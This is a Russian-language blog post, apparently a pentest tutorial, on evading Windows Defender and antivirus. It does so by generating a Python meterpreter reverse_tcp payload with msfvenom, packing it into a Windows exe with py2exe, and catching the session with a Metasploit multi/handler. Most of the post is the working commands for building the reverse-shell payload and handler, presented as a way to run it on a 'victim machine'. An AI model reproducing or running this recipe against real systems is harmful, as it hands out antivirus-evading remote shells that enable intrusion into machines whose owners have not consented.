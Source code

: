 ```yaml
---
layout: post
categories: articles_rus
tags:
  - python
  - rev_shell
  - meterpreter
published: true
---
```


# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение

Итак ситуация, есть возможность загрузить на тестируемую в рамках пентеста или другой легимитивной деятельности Windows машину файл и даже возможно исполнить его. Если мы говорим об последней, десятой версиии ОС то мы столкнёмся с местнымм его защитником Windows Defender, так же велика вероятность наткнуться на антивирус. В такой ситуации очень удобный и расширяемый meterpreter не сможет работать, какая есть альтернатива? 

## Python
{:id="python"}

Вот и ответ, использование Python в связке с metasploit и msfvenom позволяет нам получить достойную альтернативу классическому meterpreter с большинством его удобных функций. Правда некоторыми придется пожертвовать, не будет возможности использовать такие команды как getsystem и нельзя будет мигрировать в процесс.


# Начинаем

Общая схема такова: мы генерируем python код с помощью msfvenom, "скармливаем" его py2exe, полученый бинарник запускаем на машине жертвы и ловим сессию.

Для начала установим py2exe под 3.4 версию так как всё что выше не поддерживается.



~~~
pip install py2exe
~~~



Или, если вы как и я любите обновляться



~~~
python -3.4 –m pip install py2exe
~~~



Далее создаём .py код:
~~~
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > payload.py
~~~












<br>


К коду необходимо добавить import getpass который msfvenom по умолчанию почему-то не делает.

<br>












Делаем exe:

~~~
python34 -m py2exe.build_exe payload.py --bundle-files 0
~~~


И запускаем его на машине жертвы предварительно запустив handler:
~~~
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set lhost eth0
set lport <PORT>
run
~~~

И получаем коммандную оболочку:

({{ site.baseurl }}/assets/img/posts_rus/python_shell.jpg){:class="img"}

# Заключение
{:id="end"}

Простой и эффективный способ борьбы с Windows Defender если не хочется терять удобный и привычный функционал meterpreter в угоду более нативным решениям, как например ssh или telnet. 
